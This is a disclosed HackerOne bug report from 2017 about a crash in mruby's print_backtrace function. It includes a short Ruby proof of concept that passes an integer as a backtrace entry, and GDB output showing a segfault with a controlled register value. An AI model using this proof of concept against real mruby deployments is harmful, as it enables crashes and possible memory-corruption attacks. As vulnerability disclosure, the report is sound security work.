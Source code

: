 # Crash in print_backtrace

## Report Details
- **Report ID**: 197916
- **URL**: https://hackerone.com/reports/197916
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-01-12T19:29:27.356Z
- **Disclosed**: 2017-02-07T07:42:25.944Z

## Reporter
- **Username**: tunz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
This crash does not affect `mruby-engine` because it does not print the back trace in guest. We can control the register by setting a backtrace array.

# PoC
```ruby
exc = Exception.new()
exc.set_backtrace([0x41414141])
raise exc
```

# GDB
```
$ gdb -q --args ./bin/mruby test12.rb
Reading symbols from ./bin/mruby...done.
(gdb) r
Starting program: /home/tunz/working/mruby/mruby/bin/mruby test12.rb
trace:

Program received signal SIGSEGV, Segmentation fault.
0x0000000000422b88 in print_backtrace (mrb=0x2333010, backtrace=...) at /home/tunz/working/mruby/mruby/src/backtrace.c:222
222         fprintf(stream, "\t[%d] %.*s\n", i, (int)RSTRING_LEN(entry), RSTRING_PTR(entry));
(gdb) x/i $pc
=> 0x422b88 <print_backtrace+130>:      mov    eax,DWORD PTR [rax]
(gdb) i r rax
rax            0x41414141       1094795585
```

## Attachments
No attachments

